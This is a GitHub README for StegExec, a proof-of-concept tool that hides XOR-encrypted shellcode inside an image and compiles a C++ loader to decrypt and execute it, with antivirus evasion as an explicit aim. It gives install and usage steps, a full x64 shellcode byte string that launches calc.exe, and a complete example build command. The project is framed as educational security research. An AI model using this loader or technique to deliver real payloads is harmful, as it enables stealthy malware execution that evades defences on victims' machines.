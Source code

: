 # StegExec 🚀
                                                .       .
                                               / `.   .' \
                                       .---.  <    > <    >  .---.
                                       |    \  \ - ~ ~ - /  /    |
                                        ~-..-~             ~-..-~
                                    \~~~\.'                    `./~~~/
                          .-~~^-.    \__/                        \__/
                        .'  O    \     /               /       \  \
                       (_____,    `._.'               |         }  \/~~~/
                        `----.          /       }     |        /    \__/
                            `-.      |       /      |       /      `. ,~~|
                                ~-.__|      /_ - ~ ^|      /- _      `..-'   f: f:
                                     |     /        |     /     ~-.     `-. _||_||_
                                     |_____|        |_____|         ~ - . _ _ _ _ _>

## Overview
StegExec (Steganography Executor) is a fully automated Proof of Concept for embedding XOR-encrypted shellcode within an image file. The project encrypts the shellcode, injects it into the image, and compiles a custom C++ executable that, when launched, locates, decrypts, and executes the shellcode. This project demonstrates file steganography, memory manipulation, and antivirus evasion techniques for educational purposes. 

NOTE: I made this to learn more about steganography and antivirus evasion for my own career development. This is not intended to be used for malicious purposes.

## Features
- Automated encryption, injection, and executable compilation
- Custom C++ loader for shellcode execution on launch
- Batch-driven workflow for seamless deployment
- Demonstrates file-based stealth execution

## Getting Started

### Prerequisites
- Windows
- Python 3.x
- MinGW (includes g++ and windres)
- PowerShell

### Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/craig-rylance/StegExec.git
   cd stegexec
2. Ensure all required dependencies are installed:
- Install MinGW from [MinGW-w64](https://www.mingw-w64.org/) and ensure `g++` and `windres` are included in your installation.
3. Set up your environment:
- Place your target image file in the project directory.
- Prepare your shellcode input.

### Usage
1. Open PowerShell.
2. Run the batch script with the target image filename and shellcode as arguments:
    ```bash 
    .\compile-executable.cmd [target_image_file] "[shellcode]"
3. After successful execution, you will have a compiled `executable.exe` file that can be launched to execute the injected shellcode.


#### Example shellcode format (Launches calc.exe): 
Ensure that shellcode is formatted exactly like this, with spaces separating each byte.

    0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6

#### Example command:

    .\compile-executable.cmd example-image.jpg "0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6"

Running this command will produce an executable that will launch calc.exe using the encrypted shellcode inside of example-image.jpg

## ⚠️ Important Note
This project is for **educational and research purposes only**. Ensure compliance with all legal and ethical guidelines when testing or demonstrating the techniques presented in this project.

## Contributing
If you would like to contribute to this project, please fork the repository and submit a pull request with your enhancements or bug fixes.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Credit to leetcipher (https://github.com/leetCipher) for the base Python and C++ code.